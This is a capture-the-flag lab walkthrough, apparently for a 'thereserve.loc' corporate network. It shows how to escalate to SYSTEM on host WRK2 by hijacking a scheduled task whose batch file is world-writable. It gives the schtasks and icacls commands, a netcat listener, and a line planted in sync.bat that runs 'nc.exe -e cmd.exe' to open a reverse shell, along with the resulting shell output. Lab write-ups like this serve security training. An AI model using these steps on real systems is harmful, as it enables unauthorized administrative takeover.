 ## Connect to WRK2
- [[Connect to WRK2 via RDP]]
- Open a command shell.
- Look at the "C:\Users\laura.wood\Downloads>" directory.
- There's a nc.exe file. (Netcat)
	- If we manage to find some service or application that is running in the machine with administrator or system privileges, we might be able to execute netcat with administrative privileges, gaining an elevated administrative shell.
	- One quick way of escalating privileges inside a machine is through a misconfigured scheduled task, especially when it is using a binary or batch file that we can modify.

## List of tasks
- By using the command schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”,we are able to forward a list of several tasks, to a CSV file, that run with administrative privileges (the /fo csv will print the text in a CSV format).

C:\Users\laura.wood> `schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”`

Based on the output, most of the tasks run from the Windows directory, which normally means that those tasks are well configured. A quick search into the CSV reveals that a certain task runs from the following file (**C:\SYNC\sync.bat**):

![[Privilege Access to CORP Tier 2 - WRK1 and wrk2-20240630151034676.webp]]

## Query for the taskname
Query for the taskname, in order to get more information regarding the schedule task:
C:\Users\laura.wood> `schtasks /query /fo list /tn FULLSYNC /v`

![[Privilege Access to CORP Tier 2 - WRK1 and wrk2-20240630151247545.webp]]

We can check the permissions of the file with the command icacls C:\SYNC\sync.bat and are able to confirm that our user has (F) Full Access to the file.

> FULLSYNC scheduled task runs every 5 minutes.

## Check the permissions of the file "C:\SYNC\sync.bat"

PS C:\Users\laura.wood> `icacls C:\SYNC\sync.bat`
```
Everyone:(F)
BUILTIN\Users:(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)
```

> - Full access on the sync.bat file.

## Set up a listener with the previously found netcat

With this information, we know that we can set up a listener with the previously found netcat executable, and edit the task to connect with the same executable with administrative privileges, receiving an elevated reverse shell:

C:\Users\laura.wood\Downloads> `nc -lnvp 4444`

listening on [any] 4444 ...

## Edit the sync.bat file

Path: C:\SYNC

Add the following code:
`C:\Users\laura.wood\Downloads\nc.exe -e cmd.exe 127.0.0.1 4444`
`copy C:\Windows\Temp \\s3.corp.thereserve.loc\backups\`

> After a couple of minutes (5 at most) you should receive an administrative reverse shell.
## Execute the task to force a reverse shell
If you want to execute the task immediately, run the following command.
`
C:\Users\laura.wood> `schtasks /run /tn FULLSYNC`


> SUCCESS: Attempted to run the scheduled task "FULLSYNC". 

On the first command shell you'll see the following output.

listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54255
Microsoft Windows [Version 10.0.17763.4252]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

## Authenticate the flags on e-citizen

> Flag-4 Administrative access to Corporate Division Tier 2 Infrastructure

[[Flag Submission Process]]

Next step: